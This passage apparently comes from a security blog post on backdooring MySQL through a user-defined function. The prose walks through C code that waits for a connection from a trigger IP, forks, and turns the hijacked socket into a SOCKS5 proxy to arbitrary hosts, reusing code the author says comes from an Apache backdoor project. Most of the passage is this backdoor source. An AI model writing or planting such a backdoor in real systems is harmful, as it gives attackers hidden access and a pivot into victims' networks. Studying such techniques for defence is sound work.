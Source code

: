 
## Adding the SOCKS5 logic to the UDF
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
I do not like the idea of reinveting the wheel, so I am going to reuse this [SOCKS5 implementation](https://github.com/fgssfgss/socks_proxy). Indeed I am going to reuse a slightly edited version that I used in [mod_ringbuilder](https://github.com/TarlogicSecurity/mod_ringbuilder) (an Apache backdoor, if you are interested in this topic check [Backdoors in XAMP stack (part III): Apache Modules](https://www.tarlogic.com/en/blog/backdoors-modulos-apache/)).

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
First we are going to fork the process (so we do not block nothing), call the proxy function with the hunted socket as argument in the child process and then close the socket in the parent.

```c
...
void *worker(int fd) {
	int inet_fd = -1;
	int command = 0;
	unsigned short int p = 0;
	socks5_invitation(fd);
	socks5_auth(fd);
	command = socks5_command(fd);
	if (command == IP) {
		char *ip = NULL;
		ip = socks5_ip_read(fd);
		p = socks5_read_port(fd);
		inet_fd = app_connect(IP, (void *)ip, ntohs(p), fd);
		if (inet_fd == -1) {
			exit(0);
		}
		socks5_ip_send_response(fd, ip, p);
		free(ip);
    } 

	app_socket_pipe(inet_fd, fd);
	close(inet_fd);
	exit(0);
}

void proxy(int socks) {
	char a[1];
	write(socks, "And this is my Child\n", strlen("And this is my Child\n") + 1);
	read(socks, a, sizeof(a)); // 
	worker(socks);
	return;
}
int do_carracha(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
				...
				if (strstr(ip, "x.x.x.x")) {
					write(i, "Now I am become Death\n", strlen("Now I am become Death\n") + 1);
					pid = fork();
					if (pid == 0) {
						proxy(i);
						exit(0);	
					}	
					else {
						close(i);
						return 1;
					}
				} 
				...
}
```
